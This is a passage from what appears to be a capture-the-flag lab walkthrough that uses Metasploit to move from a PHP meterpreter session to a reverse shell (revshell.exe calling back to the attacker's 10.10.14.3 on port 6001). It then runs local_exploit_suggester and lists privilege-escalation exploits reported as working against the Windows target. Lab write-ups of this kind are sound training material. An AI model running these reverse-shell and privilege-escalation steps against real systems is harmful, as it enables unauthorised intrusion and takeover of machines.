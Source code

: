 Finally, we need to return to the original meterpreter session to run the new reverse shell payload. To get back to a session, you can list them with the command “sessions” and then select the session by using "sessions -i \<session number>"

```
msf6 exploit(multi/handler) > sessions
Active sessions
===============
 Id Name Type Information Connection
 -- ---- ---- ----------- ----------
 1 meterpreter php/windows IUSR (0) @ SHIELD 10.10.14.3:4444 -> 
 10.10.10.29:56134 (10.10.10.29)
msf6 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...
meterpreter >
```

We can then just execute the meterpreter reverse shell by executing revshell.exe and waiting for the new meterpreter session to start. We then background the first session and interact with the new meterpreter session we just created.

```
meterpreter > execute -f revshell.exe
Process 3280 created.
meterpreter > [*] Meterpreter session 2 opened (10.10.14.3:6001 ->     
    10.10.10.29:56135) at 2020-10-08 14:10:38 +0800
meterpreter > bg
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...
meterpreter >
```

We are now in a new, more powerful Meterpreter session and typing help will show more commands than were available with the PHP Meterpreter shell (not all shells are equal). You can verify this by typing help at the Meterpreter command and seeing the range of commands available.

## Discovery and Privilege Escalation

Now that we have achieved initial access, the process of further enumeration or discovery takes place. We are looking for ways of elevating our user account to administrator and gain total ownership of the box. This process is called **privilege escalation** or **priv esc** for short.

In Metasploit, you can run a command that will look for particular vulnerabilities that will lead to privilege escalation. This command is the “**local\_exploit\_suggester**”

```
meterpreter > bg
[*] Backgrounding session 2...
msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 2
SESSION => 2
msf6 post(multi/recon/local_exploit_suggester) > run
[*] 10.10.10.29 - Collecting local exploits for x64/windows...
[*] 10.10.10.29 - 26 exploit checks are being tried...
[+] 10.10.10.29 - exploit/windows/local/bypassuac_sdclt: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/cve_2020_1048_printerdemon: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/cve_2020_1337_printerdemon: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/ms16_075_reflection: 
    The target appears to be vulnerable.
[+] 10.10.10.29 - exploit/windows/local/ms16_075_reflection_juicy: 
    The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) > 
```